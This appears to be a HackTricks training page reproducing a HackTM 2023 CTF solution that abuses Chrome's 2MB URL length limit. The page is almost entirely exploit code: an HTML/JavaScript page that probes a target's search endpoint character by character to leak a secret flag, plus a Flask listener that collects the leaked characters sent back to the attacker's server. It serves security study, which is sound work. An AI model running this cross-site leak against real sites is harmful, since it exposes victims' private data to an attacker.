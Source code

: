 # URL Max Length - Client Side

{{#include ../../banners/hacktricks-training.md}}

Code from [https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit)

```html
<html>
  <body></body>
  <script>
    ;(async () => {
      const curr = "http://secrets.wtl.pw/search?query=HackTM{"

      const leak = async (char) => {
        fetch("/?try=" + char)
        let w = window.open(
          curr + char + "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2)
        )

        const check = async () => {
          try {
            w.origin
          } catch {
            fetch("/?nope=" + char)
            return
          }
          setTimeout(check, 100)
        }
        check()
      }

      const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

      for (let i = 0; i < CHARSET.length; i++) {
        leak(CHARSET[i])
        await new Promise((resolve) => setTimeout(resolve, 50))
      }
    })()
  </script>
</html>
```

Server side:

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars

    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

{{#include ../../banners/hacktricks-training.md}}
